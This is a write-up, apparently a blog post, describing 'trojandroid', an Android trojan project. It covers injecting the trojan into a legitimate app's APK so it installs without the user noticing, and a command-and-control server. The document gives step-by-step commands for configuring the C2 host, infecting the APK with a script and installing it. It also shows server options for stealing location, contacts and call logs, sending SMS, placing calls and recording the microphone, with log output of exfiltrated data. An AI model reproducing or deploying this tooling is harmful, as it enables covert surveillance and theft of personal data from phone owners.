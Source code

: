 An Android Trojan
==

I'm gonna describe a little project I made, "**trojandroid**",
the first part of this project was to make a simple trojan app, to get information from the phone or to perform certain remote action with the phone (send sms ...).
the second part was to inject this trojan into another app package (APK), so the trojan can be quietly install without the user noticing, the example I will take here will be with the package of [get10](https://github.com/remijouannet/get10).

this project is available on Github, three repo are parts of this project :

 - the trojan app, made with android studio : https://github.com/remijouannet/trojandroid_app
 - the server part, to talk with the trojan : https://github.com/remijouannet/trojandroid_server
 - the script to inject the trojan into an APK : https://github.com/remijouannet/trojandroid_mixapk
 - get10 : https://github.com/remijouannet/get10



trojandroid_app
--

The first thing to do is to open the project with android studio :

>\# git clone git@github.com:remijouannet/trojandroid_app.git


Try to build the app and launch it on your phone.
this app don't use any java library who isn't include in the android SDK to avoid error when it will be inject in other app.
The Trojan configuration is hardcode to avoid the dependence with any external XML.

So you're gonna have to modify the code yourself if you want to test it. the only code to modify is in **trojan.android.android_trojan.action**, modify the following code in the class **ConnectionServerThread**

>this.host = "pi.remijouannet.com"; //IP or domain name of the Trojan server

You can modify the "port" variable if you want, but it isn't recommended, you can have some errors with a non standard port for https.

Run the app on your phone or on the emulator (MaJ+F10), the generate APK will be use later.

>app/build/outputs/apk/app-debug.apk

the app is pretty simple, it's just an infinity loop in a background service who ask every 4000 seconds to the Trojan server if he had to do something, if he had he try to do it and send the result to the Trojan app, the service is relaunch every time the user unlock his phone.

trojandroid_mixapk
--

So this is a python script who use the wonderful [APKTOOL](https://ibotpeaches.github.io/Apktool/) to inject the trojan into another APK.

the script unpack the two APK, copy and modify the smali code of the trojan into get10 package, a few modification in the manifest is of course necessary, after this get10 can be repack, install and use without any problem.

the help message of the script

>\#  python mixapk.py -h

```
usage: mixapk.py [-h] [--apks trojanApk apkToInfect] [--adb]

ACTION

optional arguments:
  -h, --help            show this help message and exit
 --apks trojanApk apkToInfect specify the Trojan Apk and the APk to Infect
 --adb                 install the final APK with adb
```

So you have to have the Trojan APK and an APK of another app ([get10](https://play.google.com/store/apps/details?id=com.remijouannet.get10) for this example)
([a little howto I find to extract an installed app of your phone](http://codetheory.in/get-application-apk-file-from-android-device-to-your-computer/))

>  \# ./adb shell pm list packages | grep get10

```
package:com.remijouannet.get10
```

>  \# ./adb shell pm path com.remijouannet.get10

```
package:/data/app/com.remijouannet.get10-1/base.apk
```

>  \# ./adb pull /data/app/com.remijouannet.get10-1/base.apk && mv base.apk /tmp/

```
7544 KB/s (3117111 bytes in 0.403s)
```

>  \# mixapk.py --apks /PathTotrojandroid_app/app/build/outputs/apk/app-debug.apk /tmp/base.apk

let's do the magic.
if you didn't have any errors, you should find a file "app-final.pak" in your current directory.

if you have your phone in debug mode, you can push the apk to it with a simple adb command:

>\# adb install app-final.apk

trojandroid_server
--

the last component of the project, it's a simple flask script who expose webservice to interact with the trojan.

the trojan launch a background service who's gonna call the webservice continually to see if their is action to execute (send a sms, get the mac address ...), if an order,is given to the trojan, the answer is send from the trojan to the server to an another webservice.

so first of all install trojandroid_server from git


>\# git clone https://github.com/remijouannet/trojandroid_server.git

>\# pip install -r requirements.txt

>\# python setup.py install

after this you can launch teh server with the cmd androidtrojan

>\# androidtrojan -h

```
usage: androidtrojan [-h] [--location] [--contacts] [--calllogs] [--packages]
                     [--mac] [--sendsms PhoneNumber Message]
                     [--call PhoneNumber calltime] [--recordmic recordtime]
                     [-v] [-s folder]

ACTION

optional arguments:
  -h, --help            show this help message and exit
  --location            Get Location
  --contacts            Get Contacts
  --calllogs            Get calllogs
  --packages            Get installed packages
  --mac                 Get Mac address
  --sendsms PhoneNumber Message
                        Send SMS
  --call PhoneNumber calltime
                        Call a number for X millisecondes
  --recordmic recordtime
                        Record mic sound for X millisecondes and receive the
                        audio file
  -v, --verbose         verbose
  -s folder, --ssl folder
                        Folder with app.crt and app.key for https
```

per default, the android trojan use https, so you have to use the script ssl.sh in the repo to generate private/public key, after that you can just launch a command to get information from the trojan.

example to get the mac adress

>\# sudo androidtrojan -s /home/pi/git/trojandroid_server/ssl/ --mac -v
```
 * Running on https://192.168.1.36:443/ (Press CTRL+C to quit)
 * Restarting with stat
192.168.1.50 - - [08/Jul/2015 19:38:44] "GET /action HTTP/1.1" 200 -
192.168.1.50 f8:e0:79:ab:8c:88
f8:e0:79:ab:8c:88
192.168.1.50 - - [08/Jul/2015 19:38:45] "POST /result HTTP/1.1" 200 -
```
